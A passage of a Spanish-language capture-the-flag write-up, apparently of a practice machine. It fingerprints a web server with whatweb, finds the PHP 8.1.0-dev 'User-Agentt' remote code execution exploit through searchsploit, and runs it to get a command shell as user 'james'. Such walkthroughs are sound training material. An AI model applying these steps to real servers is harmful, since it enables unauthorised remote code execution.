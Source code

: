 ```bash
```

Utilizamos la herramienta `whatweb` para hacer un reconocimiento rapido de la pagina web.

## ¿Qué es `whatweb`?

WhatWeb reconoce tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados. WhatWeb tiene más de 1700 complementos, cada uno para reconocer algo diferente. WhatWeb también identifica números de versión, direcciones de correo electrónico, ID de cuenta, módulos de marco web, errores de SQL y más.

```bash
❯ whatweb http://10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Busco informacion sobre algun exploit o vulnerabilidad sobre PHP[8.1.0-dev], y encuentro varias cosas:

```bash
❯ searchsploit php 8.1.0                                                                                                                                                                                                                   
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path                           
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                                                                      | php/webapps/49933.py
```

# EXPLOTACIÓN

Lo pruebo y puedo inyectar comandos, esta version de php es vulnerable:

```bash
❯ python3 tester_exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ whoami
james

$ ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:8661  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:8661  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:86:61  txqueuelen 1000  (Ethernet)
        RX packets 94052  bytes 5666723 (5.6 MB)
        RX errors 0  dropped 29  overruns 0  frame 0
        TX packets 94094  bytes 5274286 (5.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```